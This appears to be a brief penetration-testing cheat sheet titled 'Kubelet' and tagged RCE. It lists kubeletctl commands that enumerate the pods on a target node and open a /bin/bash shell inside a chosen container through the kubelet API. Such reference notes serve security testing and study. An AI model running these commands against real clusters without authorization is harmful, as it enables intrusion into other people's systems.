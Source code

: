 ```yaml
---
title: "Kubelet"
date: 2025-7-25
tags: ["Kubelet", "Kubernetes", "Container", "RCE"]
---
```


### General

```console
# List all the pods on the node
kubeletctl pods -s <TARGET>
```

```console
# List running pods
kubeletctl runningpods -s <TARGET>
```

```console
# Exec command
kubeletctl exec "/bin/bash" -p <POD_NAME> -c <CONTAINER_NAME> -s <TARGET>
```

<small>*Ref: [kubeletctl](https://github.com/cyberark/kubeletctl)*</small>
